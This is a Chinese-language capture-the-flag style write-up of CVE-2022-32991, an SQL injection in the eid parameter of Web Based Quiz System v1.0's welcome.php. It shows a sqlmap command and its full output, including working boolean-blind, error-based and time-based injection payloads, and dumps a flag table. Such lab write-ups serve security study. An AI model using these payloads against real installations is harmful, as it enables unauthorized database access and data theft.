



# CVE-2022-32991（Web Based Quiz System SQL注入）

<div style="text-align: right;">

date: "2023-01-08"

</div>

## 漏洞描述

- Web Based Quiz System v1.0 通过welcome.php 中的eid 参数被发现包含一个SQL 注入漏洞。

## 漏洞原理

- 暂无

## 漏洞复现

注册用户



注册完成登录以后，可看到url含有提示中的welcome.php



审计源代码发现welcome.php中的参数没有进行过滤，而且eid参数可控，此处存在SQL注入



随意点击一个Start，抓包进行注入点测试

```bash
C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6
λ python3 sqlmap.py -r 123.txt -D ctf -T flag -C flag --dump --random-agent -p eid
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:14:08 /2023-01-08/

[18:14:08] [INFO] parsing HTTP request from '123.txt'
[18:14:08] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_5_8; ja-jp) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0 Safari/533.16' from file 'C:\Users\手动打码\Desktop\常用漏洞检测工具\漏洞扫描\sqlmap-1.6\data\
txt\user-agents.txt'
[18:14:08] [INFO] resuming back-end DBMS 'mysql'
[18:14:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: q=quiz&step=2&eid=-6158' OR 6014=6014#&n=1&t=34

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: q=quiz&step=2&eid=60377db362694' OR (SELECT 7576 FROM(SELECT COUNT(*),CONCAT(0x716a7a6b71,(SELECT (ELT(7576=7576,1))),0x716a786b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uzku&n=1&t=34

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=quiz&step=2&eid=60377db362694' AND (SELECT 4541 FROM (SELECT(SLEEP(5)))QOaM)-- rieb&n=1&t=34
---
[18:14:09] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.2.20
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:14:09] [INFO] fetching entries of column(s) 'flag' for table 'flag' in database 'ctf'
[18:14:10] [WARNING] reflective value(s) found and filtering out
[18:14:10] [INFO] retrieved: 'flag{0321e3b1-3055-4635-acd8-0070d192c4a1}'
Database: ctf
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{0321e3b1-3055-4635-acd8-0070d192c4a1} |
+--------------------------------------------+

[18:14:10] [INFO] table 'ctf.flag' dumped to CSV file 'C:\Users\手动打码\AppData\Local\sqlmap\output\example.com\dump\ctf\flag.csv'
[18:14:10] [INFO] fetched data logged to text files under 'C:\Users\手动打码\AppData\Local\sqlmap\output\example.com'
[18:14:10] [WARNING] your sqlmap version is outdated

[*] ending @ 18:14:10 /2023-01-08/
```
